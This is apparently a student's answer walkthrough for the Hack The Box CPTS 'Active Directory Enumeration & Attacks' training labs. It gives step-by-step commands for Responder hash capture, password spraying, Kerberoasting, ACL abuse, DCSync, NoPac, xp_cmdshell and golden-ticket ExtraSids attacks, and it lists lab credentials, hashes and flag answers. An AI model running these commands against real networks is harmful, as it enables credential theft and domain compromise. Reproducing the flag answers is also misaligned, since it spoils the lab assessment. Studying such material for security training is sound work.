




# CPTS labs - 12 Active Directory Enumeration & Attacks


## [Active Directory Enumeration & Attacks](https://academy.hackthebox.com/module/details/143)

### Initial Enumeration

**While looking at inlanefreights public records; A flag can be seen. Find the flag and submit it. ( format == HTB{****} )**

```
# Method 1
# Go to https://viewdns.info/
# Do a DNS Look up record for inlanefreight.com

# Method 2
dig TXT inlanefreight.com 
```

Results: HTB{5Fz6UPNUFFzqjdg0AzXyxCjMZ}


**SSH to  with user "htb-student" and password "HTB_@cademy_stdnt!"**
**From your scans, what is the "commonName" of host 172.16.5.5 ?**

```
ssh htb-student@$ip
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

# On discovered host 172.16.5.5, run a nmap aggressive
nmap -A 172.16.5.5
```

Results: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL


**What host is running "Microsoft SQL Server 2019 15.00.2000.00"? (IP address, not Resolved name)**

```
# FRom previous sweep ping we also had this ip 172.16.5.130. We run a nmap to verify
nmap -A 172.16.5.130
```

Results: 172.16.5.130


### Sniffing out a Foothold

**Run Responder and obtain a hash for a user account that starts with the letter b. Submit the account name as your answer.**

```
# One thing you can do is running kerbrute. For that previously in your kali machine
sudo responder -I ens224 -A -wf
```

Results: backupagent


**Crack the hash for the previous account and submit the cleartext password as your answer.**

```
echo "backupagent::INLANEFREIGHT:a44a64f117fef681:A2DD31752724815828DDEEA3CE0D14AF:0101000000000000007B3554C738DB0115079F6A10E61FB00000000002000800360047003900360001001E00570049004E002D0043005300500057005600580058004B0037003000360004003400570049004E002D0043005300500057005600580058004B003700300036002E0036004700390036002E004C004F00430041004C000300140036004700390036002E004C004F00430041004C000500140036004700390036002E004C004F00430041004C0007000800007B3554C738DB0106000400020000000800300030000000000000000000000000300000EDC155D127A35F887E8796110B67D2FFC726BEB6F6A090039BB1FB587FB8CC4E0A001000000000000000000000000000000000000900220063006900660073002F003100370032002E00310036002E0035002E003200320035000000000000000000" > hash2
hashcat -m 5600 hash2 /usr/share/wordlists/rockyou.txt
```

Results: h1backup55

**Run Responder and obtain an NTLMv2 hash for the user wley. Crack the hash using Hashcat and submit the user's password as your answer.**

```
sudo responder -I ens224 -A -wf
echo "wley::INLANEFREIGHT:59927891910ba43b:D0177CE077EDE96746E10975D2F34CAE:0101000000000000007B3554C738DB018AC0B8E5A51B55310000000002000800360047003900360001001E00570049004E002D0043005300500057005600580058004B0037003000360004003400570049004E002D0043005300500057005600580058004B003700300036002E0036004700390036002E004C004F00430041004C000300140036004700390036002E004C004F00430041004C000500140036004700390036002E004C004F00430041004C0007000800007B3554C738DB0106000400020000000800300030000000000000000000000000300000EDC155D127A35F887E8796110B67D2FFC726BEB6F6A090039BB1FB587FB8CC4E0A001000000000000000000000000000000000000900220063006900660073002F003100370032002E00310036002E0035002E003200320035000000000000000000" > hash3
hashcat -m 5600 hash3 /usr/share/wordlists/rockyou.txt
```

Results: transporter@4


**RDP to $ip (ACADEMY-EA-MS01) with user "htb-student" and password "Academy_student_AD!" Run Inveigh and capture the NTLMv2 hash for the svc_qualys account. Crack and submit the cleartext password as the answer.**

```
xfreerdp /v:$IP /u:htb-student /p:"Academy_student_AD\!" /cert:ignore

# Open Powershell as Administrator
cd c:/tools
.\Inveigh.exe   
echo "svc_qualys::INLANEFREIGHT:c64015117cfae8cf:6E069821C26309BFF0ADA96F643AA703:0101000000000000007B3554C738DB0164C7AEAE827BFB2C0000000002000800360047003900360001001E00570049004E002D0043005300500057005600580058004B0037003000360004003400570049004E002D0043005300500057005600580058004B003700300036002E0036004700390036002E004C004F00430041004C000300140036004700390036002E004C004F00430041004C000500140036004700390036002E004C004F00430041004C0007000800007B3554C738DB0106000400020000000800300030000000000000000000000000300000EDC155D127A35F887E8796110B67D2FFC726BEB6F6A090039BB1FB587FB8CC4E0A001000000000000000000000000000000000000900220063006900660073002F003100370032002E00310036002E0035002E003200320035000000000000000000" > hashsvc
hashcat -m 5600 hashsvc /usr/share/wordlists/rockyou.txt
```

Results: security#1


### Sighting In, Hunting For A User

**SSH to  $ip with user "htb-student" and password "HTB_@cademy_stdnt!"**
**What is the default Minimum password length when a new domain is created? (One number)**

```
# This information is included in the sylabus. It does not require us to run any command.
```

Results: 7


**What is the minPwdLength set to in the INLANEFREIGHT.LOCAL domain? (One number)**

```
# Connect to the pivot machine
ssh htb-student@$ip

ip a

# Sweep ping to discover IPs in the new the network range 172.16.5.X
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

# rpcclient via the SMB NULL session technique:
rpcclient -U "" -N 172.16.5.5

# Now, within rpcclient terminal, enumerate domain password information
getdompwinfo
```

Results: 8


**Enumerate valid usernames using Kerbrute and the wordlist located at /opt/jsmith.txt on the ATTACK01 host. How many valid usernames can we enumerate with just this wordlist from an unauthenticated standpoint?**

```
sudo git clone https://github.com/ropnop/kerbrute.git

# Typing make help will show us the compiling options available.
cd kerbrute
make help

# type make all and compile one each for use on Linux, Windows, and Mac systems (an x86 and x64 version for each).
sudo make all

# The newly created dist directory will contain our compiled binaries.
ls -la dist

cd dist
python3 -m http.server 8001

# Connec to the pivot host
ssh htb-student@$ip
wget http://$ipAttacker:8001 kerbrute_linux_amd64 

# Also download the jsmith.txt from https://github.com/insidetrust/statistically-likely-usernames/tree/master 

# Run kerbrute from the pivot host
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users

```

Results: 56 


### Spray Responsibly

**Find the user account starting with the letter "s" that has the password Welcome1. Submit the username as your answer.**

```
./kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users

./kerbrute_linux_386 passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_ad_users  Welcome1
```

Results: sgage

**RDP to $ip (ACADEMY-EA-MS01) with user "htb-student" and password "Academy_student_AD!". Using the examples shown in this section, find a user with the password Winter2022. Submit the username as the answer.**

```
# Open powershell as Admin
Import-Module .\DomainPasswordSpray.ps1 

Invoke-DomainPasswordSpray -Password Winter2022 -OutFile spray_success -ErrorAction SilentlyContinue 

```

Results: dbranch


### Deeper Down the Rabbit Hole


**What AD User has a RID equal to Decimal 1170?**

```
ssh htb-student@$ip
rpcclient -U forend 172.16.5.5
# Enter password when prompted

# In the console of developer tools:
number=1170; number.toString(16);
# We obtain 457 as the hex value for that user RID

queryuser 0x457
```

Results: mmorgan


**What is the membercount: of the "Interns" group?**

```
# Connect to the machine via ssh
ssh htb-student@$ip

# ping sweet the network from than machine
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

# After determining the target 172.16.5.5, we can enumerate groups with provided creds, and filter by "Interns"
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups | grep Interns
```

Results: 10


RDP to 10.129.147.147 (ACADEMY-EA-MS01) with user "htb-student" and password "Academy_student_AD!". **Using Bloodhound, determine how many Kerberoastable accounts exist within the INLANEFREIGHT domain. (Submit the number as the answer)**

[For installing and using bloodhound](bloodhound.md).


Results: 13


**What PowerView function allows us to test if a user has administrative access to a local or remote host?**

Results: Test-AdminAccess


**Run Snaffler and hunt for a readable web config file. What is the name of the user in the connection string within the file?**

Results: sa


**What is the password for the database user?**

Results: ILFREIGHTDB01!


**RDP to 10.129.147.147 (ACADEMY-EA-MS01) with user "htb-student" and password "Academy_student_AD!". Enumerate the host's security configuration information and provide its AMProductVersion.**

```
# To RDP 
xfreerdp /v:$ip /u:$username /cert:ignore /dynamic-resolution

# Get the current Defender status.
Get-MpComputerStatus
```

Results: 4.18.2109.6  


What domain user is explicitly listed as a member of the local Administrators group on the target host?

```
# To RDP 
xfreerdp /v:$ip /u:$username /cert:ignore /dynamic-resolution

# Get members of Local Administrators group
net localgroup Administrators

# In the results you will see:
Members                                                                    -----------------------------------                                        Administrator
INLANEFREIGHT\adunn
INLANEFREIGHT\Domain Admins
INLANEFREIGHT\Domain Users
The command completed successfully.
```

Results: adunn


**Utilizing techniques learned in this section, find the flag hidden in the description field of a disabled account with administrative privileges. Submit the flag as the answer.**

```
# To RDP 
xfreerdp /v:$ip /u:$username /cert:ignore /dynamic-resolution

##########
# With Get-AD 
##########
# Lists disabled users with LDAP and returns their samAccountName
Get-ADUser -LDAPFilter '(userAccountControl:1.2.840.113556.1.4.803:=2)' | select samaccountname

# Gets details about one of the users obtained
Get-ADUser -Identity bross -Properties * 
# Flag will be in the description field

#########
# With dsquery
#########
# Lists disabled users with LDAP and returns their samAccountName
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2))" -attr SamAccountName    

# Gets details about one of the users obtained
net user bross /domain 
```

Results: HTB{LD@P_I$_W1ld}


### Cooking with Fire

**SSH to $ip (ACADEMY-EA-ATTACK01) with user "htb-student" and password "HTB_@cademy_stdnt!". Retrieve the TGS ticket for the SAPService account. Crack the ticket offline and submit the password as your answer.**

```
# Connect via ssh
ssh htb-student@$ip

# Enumerate the network
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

# Enumerate SPNs in the Domain and we will see SAPService among them
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
# When prompted for the password, enter Klmcargo2

# Generate TGD ticket for the SAPService account
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user SAPService -outputfile ker

# Copy the ker file content to our kali attacker machine and crack it
hashcat -m 13100 ker /usr/share/wordlists/rockyou.txt

```

Results: !SapperFi2


**What powerful local group on the Domain Controller is the SAPService user a member of?**

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
# When prompted for the password, enter Klmcargo2. You will also obtain the groups that the user belongs to.
```

Results: Account Operators


**What is the name of the service account with the SPN 'vmware/inlanefreight.local'?**

```
# Connect via rdp
xfreerdp /v:$ip /u:$user /cert:ignore

# List SPNs
setspn.exe -Q */*
# And pay attention to the firsts in the list:
# CN=svc_vmwaresso,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
# vmware/inlanefreight.local  
```

Results: svc_vmwaresso


**Crack the password for this account and submit it as your answer.**

```
# Connect via rdp
xfreerdp /v:$ip /u:$user /cert:ignore

# Go to tools
cd C:\Tools

# Import PowerView
Import-module .\PowerView.ps1

# List SPNs and returns their SamAccountName
Get-DomainUser * -spn | select samaccountname 

#  Generate a TGS ticker for a specific user:
Get-DomainUser -Identity svc_vmwaresso | Get-DomainSPNTicket -Format Hashcat

# After copying the ticket to the kali machine and removing blank spaces, crack it with hashcat
cat rc4_to_crack | tr -d \\n > hash.txt
hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt 
```

Results: Virtual01

### An ACE in the Hole


**What type of ACL defines which security principals are granted or denied access to an object? (one word)**
Results: DACL


**Which ACE entry can be leveraged to perform a targeted Kerberoasting attack?**
Results: GenericAll 


**What is the rights GUID for User-Force-Change-Password?**
Results:


**What flag can we use with PowerView to show us the ObjectAceType in a human-readable format during our enumeration?**
Results: ResolveGUIDs


What privileges does the user damundsen have over the Help Desk Level 1 group?

```
$sid2 = Convert-NameToSid damundsen
Get-DomainObjectACL -Identity "Help Desk Level 1" -ResolveGUIDs | ? {$_.SecurityIdentifier -eq $sid}
```
This can also be done with other tools such as Bloodhound, installed under C:\Tools.
Results: GenericWrite


**Using the skills learned in this section, enumerate the ActiveDirectoryRights that the user forend has over the user dpayne (Dagmar Payne).**

```
$sid = Convert-NameToSid forend

Get-DomainObjectACL -Identity "dpayne" -ResolveGUIDs | ? {$_.SecurityIdentifier -eq $sid}
```
This can also be done with other tools such as Bloodhound, installed under C:\Tools.
Results: GenericAll


**What is the ObjectAceType of the first right that the forend user has over the GPO Management group? (two words in the format Word-Word)**

```
$sid = Convert-NameToSid forend

Get-DomainObjectACL -Identity "GPO Management" -ResolveGUIDs | ? {$_.SecurityIdentifier -eq $sid}
```

Results: Self-Membership


**Work through the examples in this section to gain a better understanding of ACL abuse and performing these skills hands-on. Set a fake SPN for the adunn account, Kerberoast the user, and crack the hash using Hashcat. Submit the account's cleartext password as your answer.**


```powershell
##########
# 1. Abuse ForceChangePassword: take over account damundsen
#########

# Wley will change the password of damundsen. First, open Powershell as Wley
# Creating a PSCredential Object
$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```


Our user damundsen has GenericWrite privileges over the `Help Desk Level 1` group. This means, among other things, that the attacker can add a user/group/computer to a group.

```powershell
##########
# 2. Abuse GenericWrite: add damundsen to group 'Help Desk Level 1'
#########
# Open powershell as damundsen
# Creating a SecureString Object using damundsen
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 

# Add damundsen to the group
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
	
# Confirming damundsen was Added to the Group
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName


##########
# 3. Abuse GenericAll: Perform a kerberoasting attack
#########
# Members of the `Information Technology` group have `GenericAll` rights over the user `adunn`, which means we could perform a targeted Kerberoasting attack and attempt to crack the user's password if it is weak
# Open powershell as damundsen
# Creating a SecureString Object using damundsen
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 

# Creating a Fake SPN
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

#  Kerberoasting with Rubeus
.\Rubeus.exe kerberoast /user:adunn /nowrap

# Crack it
hashcat -m 13100 $filename /usr/share/wordlists/rockyou.txt
```

Results: SyncMaster757

**Perform a DCSync attack and look for another user with the option "Store password using reversible encryption" set. Submit the username as your answer.**

```
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```
Results: syncron

**What is this user's cleartext password?**
Results: Mycleart3xtP@ss!

 **Perform a DCSync attack and submit the NTLM hash for the khartsfield user as your answer.**

```
# Open cmd 
runas /netonly /user:INLANEFREIGHT\adunn powershell
# When prompted, enter password 'SyncMaster757'

cd C:\Tools\mimikatz\x64
.\mimikatz.exe

lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\khartsfield
```

Results: 4bb3b317845f0954200a6b0acc9b9f9a


### Stacking The Deck

**RDP to 10.129.230.228 (ACADEMY-EA-MS01) with user "htb-student" and password "Academy_student_AD!". What other user in the domain has CanPSRemote rights to a host?**

```cypher
# Open Bloodhound
# In Analysis tab, create a custom query and call it "Find WinRM users":
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

Results: bdavis


**What host can this user access via WinRM? (just the computer name)**
Results: ACADEMY-EA-DC01


**Authenticate to ACADEMY-EA-DB01 with user "damundsen" and password "SQL1234!". Leverage SQLAdmin rights to authenticate to the ACADEMY-EA-DB01 host (172.16.5.150). Submit the contents of the flag at C:\Users\damundsen\Desktop\flag.txt.**

```powershell
ssh htb-student@172.16.5.225
 
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth

enable_xp_cmdshell
xp_cmdshell type C:\Users\damundsen\Desktop\flag.txt

```

Results: 1m_the_sQl_@dm1n_n0w!


**Which two CVEs indicate NoPac.py may work? (Format: ####-#####&####-#####, no spaces)**

Results: 2021-42278&2021-42287


**Apply what was taught in this section to gain a shell on DC01. Submit the contents of flag.txt located in the DailyTasks directory on the Administrator's desktop.**

```
# Add this line to the proxychains file /etc/proxychains
socks5 127.0.0.1 1234

# Establish a tunnel connection
ssh htb-student@$ip -D 1234

# Now from my attacker machine, test the NoPac vulnerability. First we will run an scanner from the host machine:
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```

It will return: 

```bash
# it will save the file administrator_ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.ccache
[*] Current ms-DS-MachineAccountQuota = 10
[*] Got TGT with PAC from 172.16.5.5. Ticket size 1484
[*] Got TGT from ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL. Ticket size 663
 ```

We could then use the cache file to perform a pass-the-ticket and perform further attacks such as DCSync.  Using noPac to DCSync the Built-in Administrator Account:

```bash
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```

It will return:

```
[*] Using the DRSUAPI method to get NTDS.DIT secrets
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
[*] Kerberos keys grabbed
inlanefreight.local\administrator:aes256-cts-hmac-sha1-96:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
inlanefreight.local\administrator:aes128-cts-hmac-sha1-96:95c30f88301f9fe14ef5a8103b32eb25
inlanefreight.local\administrator:des-cbc-md5:70add6e02f70321f
```

whereas the NTLM hash is 88ad09182de639ccc6579eb0849751cf. Now we can use crackmapexec (for instance):

```
proxychains crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf  -x 'type C:\Users\Administrator\Desktop\DailyTasks\flag.txt' --exec-method smbexec
```

Results: D0ntSl@ckonN0P@c!


**RDP to  (ACADEMY-EA-MS01) ,10.129.32.8 (ACADEMY-EA-ATTACK01) with user "htb-student" and password "Academy_student_AD!". Find another user with the passwd_notreqd field set. Submit the samaccountname as your answer. The samaccountname starts with the letter "y".**

```
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
```

Results: ygroce


 **Find another user with the "Do not require Kerberos pre-authentication setting" enabled. Perform an ASREPRoasting attack against this user, crack the hash, and submit their cleartext password as your answer.**

```
# Enumerating for DONT_REQ_PREAUTH Value using Get-DomainUser
Import-Module .\PowerView.ps1
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

# Rubeus tool can be leveraged to retrieve the AS-REP in the proper format for offline hash cracking. This attack does not require any domain user context and can be done by just knowing the SAM name for the user without Kerberos pre-auth.
.\Rubeus.exe asreproast /user:ygroce /nowrap /format:hashcat

# Cracking the Hash Offline with Hashcat:
hashcat -m 18200 ygroce /usr/share/wordlists/rockyou.txt
```

Results: Pass@word

### Why So Trusting?

**RDP to  with user "htb-student" and password "Academy_student_AD!". What is the child domain of INLANEFREIGHT.LOCAL? (format: FQDN, i.e., DEV.ACME.LOCAL)**

```powershell
Import-Module activedirectory
Get-ADTrust -Filter *
```

Results: LOGISTICS.INLANEFREIGHT.LOCAL,

**What domain does the INLANEFREIGHT.LOCAL domain have a forest transitive trust with?**

```powershell
# Same as above
Import-Module activedirectory
Get-ADTrust -Filter *
```

Results: FREIGHTLOGISTICS.LOCAL

**What direction is this trust?**

Results: Bidirectional


**RDP to  with user "htb-student_adm" and password "HTB_@cademy_stdnt_admin!". What is the SID of the child domain?**

```powershell
# As we are already in the child domain:
Import-Module .\PowerView.ps1
Get-DomainSID
```

Results: S-1-5-21-2806153819-209893948-922872689


 **What is the SID of the Enterprise Admins group in the root domain?**

```powershell
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

```

Results: S-1-5-21-3842939050-3880317879-2865463114-519


**Perform the ExtraSids attack to compromise the parent domain. Submit the contents of the flag.txt file located in the c:\ExtraSids folder on the ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL domain controller in the parent domain.**

```
# The complete attack would require getting the golden tickets.
# Step 1: get SID of the Child domain
Import-Module .\PowerView.ps1
Get-DomainSID
# Result: S-1-5-21-2806153819-209893948-922872689


# Step 2: get  KRBTGT hash for the child domain
# Go to mimikatz.exe file in the explorer and execute as admin
lsadump::dcsync /user:$domain\$user
# Result:  `9d765b482771505cbe97411065964d5f`.

# Step 3: getting the name of a target user in the child domain (does not need to exist!)
# Result: hacker

# Step 4: getting the FQDN of the child domain. 
# Listed above in mimikatz output
# Result:  `LOGISTICS.INLANEFREIGHT.LOCAL`

# Step 5: getting the SID of the Enterprise Admins group of the root domain
# Way #1:
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
# Way #2:
Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"
# Result:  `S-1-5-21-3842939050-3880317879-2865463114-519`

# Step 6: the attack
# Generate a golden ticket:
kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
# Read the flag (make sure that the ticket has been created with klist)
cat \\academy-ea-dc01.inlanefreight.local\c$\ExtraSids\flag.txt
```

Results: f@ll1ng_l1k3_d0m1no3$


**SSH to with user "htb-student" and password "HTB_@cademy_stdnt!". Perform the ExtraSids attack to compromise the parent domain from the Linux attack host. After compromising the parent domain obtain the NTLM hash for the Domain Admin user bross. Submit this hash as your answer.**

```
#### Step 1: getting the KRBTGT hash for the child domain
secretsdump.py $targetedDomain/$UserWithAdminPriv@$TargetedIP -just-dc-user $NetbiosNameofDomain/krbtgt

# Example:
# secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
# Enter password: HTB_@cademy_stdnt_admin!
# Results: 9d765b482771505cbe97411065964d5f
#### 

#### Step 2: getting the SID for the child domain. Obtain the SID for the domain and the RIDs for each user and group and filter out by Domain SID
lookupsid.py $targetedDomain/$UserWithAdminPriv@TargetedIP | grep "Domain SID"

# Example:
# lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
# Enter password: HTB_@cademy_stdnt_admin!
# Results:  S-1-5-21-2806153819-209893948-922872689
####

#### Step 3: getting the name of a target user in the child domain (does not need to exist!)
hacker
####

#### Step 4: getting the FQDN of the child domain.
logistics.inlanefreight.local
####

#### Step 5: getting the SID of the Enterprise Admins group of the root domain
lookupsid.py $targetedDomain/$UserWithAdminPriv@$DomainControllerIP | grep "Enterprise Admins"
# Example:
# lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep "Enterprise Admins"
# Enter password: HTB_@cademy_stdnt_admin!
# Results: 519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
####

#### Step 6: Generate a golden ticket 
ticketer.py -nthash $KRBTGThashOfChildDomain -domain $targetedDomain -domain-sid $sidDomain -extra-sid $SIDofEnterpriseAdminGroup $madeupUserName
# Example:
# ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

# The ticket will be saved down to our system as a credential cache (ccache) file, which is a file used to hold Kerberos credentials:
[*] Saving ticket in hacker.ccache

# Setting the KRB5CCNAME environment variable tells the system to use this file for Kerberos authentication attempts.
export KRB5CCNAME=hacker.ccache 
####

#### Step 7: Accessing another user on domain
# With one user, we will request the NTLM hash for another user
secretsdump.py $ControlledUsername@$hostnameController.$Parentdomain -k -no-pass -just-dc-ntlm -just-dc-user $targetUsername
# Example:
# secretsdump.py hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -just-dc-ntlm -just-dc-user bross

```

Results: 49a074a39dd0651f647e765c2cc794c7

### Breaking Down Boundaries


**Perform a cross-forest Kerberoast attack and obtain the TGS for the mssqlsvc user. Crack the ticket and submit the account's cleartext password as your answer.**

```
#### Enumerating SPNs
Get-DomainUser -SPN -Domain $TargetDomain | select SamAccountName
# Example:
# Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
# Results: mssqlsvc
######

#### Getting which groups is mssqlsvc member of
Get-DomainUser -Domain $TargetDomain -Identity $interestingUserSamAccountName | select samaccountname,memberof
# Example:
# Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc | select samaccountname,memberof
